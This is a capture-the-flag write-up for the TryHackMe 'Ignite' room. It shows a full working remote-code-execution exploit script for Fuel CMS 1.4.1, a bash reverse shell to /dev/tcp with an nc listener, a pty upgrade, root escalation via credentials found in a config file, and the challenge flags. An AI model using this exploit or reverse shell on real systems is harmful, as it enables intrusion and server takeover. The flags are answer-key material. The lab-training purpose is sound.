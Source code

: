 # Ignite

![logo](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/bd001816-10a2-47d1-a383-7be389a99ca8)

## Enumeration

We use `nmap` to scan the target :

```bash
nmap -sT -sV 10.10.128.117
```

![nmap](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/e5d5b0ce-157d-4e87-adc3-43d5247f578d)


opening the browser on machine IP will show some information :

![firstPage](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/c8c00347-73c8-4ef9-926d-d29fa78eef2b)

with some extra information showing the location of config files :

![configFiles](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/5686dbcd-c9f4-4a27-8951-666f078f27d1)

as it is obvious the username and password for logging in is `admin:admin`

in the CMS itself there is no way to upload a file (at least i tried verious extensions) but none of them worked.

i decided to search for `fuel cms` exploit wtih `searchsploit` :

```bash
searchsploit fuel cms
```

![searchsploit](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/e6947bc4-4829-446a-9b3e-11427b29f5da)

it shows that version `1.4.1` has remote code execution vulnerability, so download the exploit `47138.py` from exploit-db.com

![exdb](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/8eb1c17c-2b47-45d9-9b31-21f70afae927)

from the original code you need to change afew things :

![code](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/83f8a4b2-8d98-441c-bf2d-f91eab06ca6f)

```md
1.Change the url to machine IP address
2.Comment out the proxy line
3.Remove the proxies=proxy parameter
```

the final code should be like this :

```python
import requests
import urllib

url = "http://10.10.128.117:80"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
        xxxx = raw_input('cmd:')
        burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
        #proxy = {"http":"http://127.0.0.1:8080"}
        r = requests.get(burp0_url)

        html = "<!DOCTYPE html>"
        htmlcharset = r.text.find(html)

        begin = r.text[0:20]
        dup = find_nth_overlapping(r.text,begin,2)

        print r.text[0:dup]
```

## Getting Shell

Now execute it with `python2`, it gives you a `cmd` that you can run command with it, for example `ls` :

![cmd](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/38c85ca2-99ba-4550-8d9e-c27429a5a6d3)

you just need to upload your reverse shell to the target so i used bash revshell and saved it to a file call `r.sh` :

```bash
bash -i >& /dev/tcp/10.6.74.10/4444 0>&1
```

use python to make the file downloadable for the target :

```python
python3 -m http.server 8080
```

and get the file from the victim :

![wget](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/2edb533f-3dab-4211-bc39-eaa5971276f1)

after downloading the file on the victim now it iss time to execute it, first listen on your desired port with `nc` like `nc -nvlp 4444` :

![bash](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/08309f4c-f1bf-494c-ae17-c607353db37e)

navigate to `/home/www-data` and cat the `flag.txt` file, this is your first flag :

```bash
cat flag.txt
6470e394cbf6dab6a91682cc8585059b
```

## Privilege Escalation

You can do multiple things here for example uploading `Linpeas.sh` on the target but if you remember from the first page of the site where

it showed multiple configuration files in `fuel/application/config` directory, let's explore this directory to find anything interesting :

![dir](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/e3b999aa-57d2-482f-8af1-e9d13a3ac709)

cat the content of `database.php`

![database](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/a2c3f076-3b7f-4195-b1d0-c11800813c11)


yes, the root password is here, we just need to switch to `root` account.

but if we use `su root` we get and error saying `su: must be run from a terminal`

so we first need to escalate the terminal, to do this use the code below :

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
now use `su root` and provide the password.

cat the content of `/root/root.txt` :

```bash
cat /root/root.txt
b9bbcb33e11b80be759c4e844862482d
```

This is the end of Ignite challenge :)
